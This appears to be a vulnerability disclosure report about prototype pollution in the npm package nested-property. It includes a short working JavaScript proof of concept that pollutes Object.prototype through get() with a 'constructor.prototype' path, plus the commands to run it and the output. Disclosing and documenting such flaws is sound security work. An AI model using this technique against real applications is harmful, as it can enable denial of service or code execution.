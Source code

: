 # Description

`nested-property` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const { get } = require('nested-property')

console.log(`Before: ${{}.polluted}`)
get({}, 'constructor.prototype').polluted = true
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i nested-property # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

